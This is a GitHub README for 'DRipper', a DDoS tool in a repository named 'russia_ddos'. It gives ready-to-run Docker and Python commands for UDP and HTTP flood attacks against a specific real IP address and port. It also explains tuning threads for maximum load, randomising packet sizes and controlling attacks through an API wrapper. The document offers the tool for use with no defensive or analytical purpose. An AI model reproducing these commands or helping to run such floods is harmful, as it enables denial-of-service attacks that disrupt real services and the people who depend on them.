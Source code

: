 ## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper:latest -s 213.24.76.23 -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default - random from (22, 53, 80, 443) for every packet sending);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

-m - attack method: udp (default), http

-r - send packets with random length (up to 50 Kb, works only with UDP attack method)

--resources - name of the resource under attack

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s 213.24.76.23 -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s 213.24.76.23 -p 80 -t 100 -r 1 -m udp
```


## API

API is a more convenient wrapper over start, stop, list processed for Dripper.py

```
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
pip install requirements.txt
# or
pip3 install requirements.txt

python api.py
# or
python3 api.py
```

Swagger documentation is under 

```
http://localhost:49155/docs
```